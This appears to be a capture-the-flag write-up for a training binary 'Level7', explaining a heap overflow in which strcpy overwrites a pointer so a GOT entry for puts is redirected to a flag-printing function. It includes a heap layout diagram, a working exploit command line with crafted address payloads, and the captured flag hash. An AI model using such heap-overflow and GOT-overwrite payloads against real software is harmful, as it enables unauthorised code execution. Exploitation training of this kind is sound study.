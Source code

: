 # Level7

We can see that the program `fgets()` the flag and saves it in `obj.c` but does nothing with it
There is however a function `m()` that prints `obj.c` but it is not called

This binary does 4 `malloc` calls in a row

It uses `strcpy` to copy the strings in `av[0]` and `av[1]` to their respective allocated memory
`strcpy` is unprotected and will copy until it reaches the end of the string of crahes

We can overflow in during the first strcpy, to overwrite the address used as destination for the second strcpy
``
#1 malloc(8)	; 0x0804A008 ; 4 bytes store index 1, following 4 store malloc #2 return
#2 malloc(8)	; 0x0804A018 ; destination of strcpy argv[0]
#3 malloc(8)	; 0x0804A028 ; 4 bytes store index 2, following 4 store malloc #4 return
#4 malloc(8)	; 0x0804A038 ; destination of strcpy argv[1] 
``

## Heap visualisation
``
#1 data		 #1 metadata	  #2 data	   #2 metadata	    #3 data	     #3 metadata      #4 data	       #4 metadata	
[][][][][][][][]|[][][][][][][][]|[][][][][][][][]|[][][][][][][][]|[][][][][][][][]|[][][][][][][][]|[][][][][][][][]|[][][][][][][][]
^        \________________________^				    ^        \________________________^
 \ index 1							     \ index 2
``

`av[0]` will have the address of puts in the GOT with 20 padding so that the address overflows into malloc #3 and replaces the address used as parameter in the second strcpy
`av[1]` will have the address to `m()` to be placed in the GOT

``
./level7 $(python -c "print 20 * 'A' + '\x08\x04\x99\x28'[::-1]") $(python -c "print '\x08\x04\x84\xf4'[::-1]")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1581869221
``
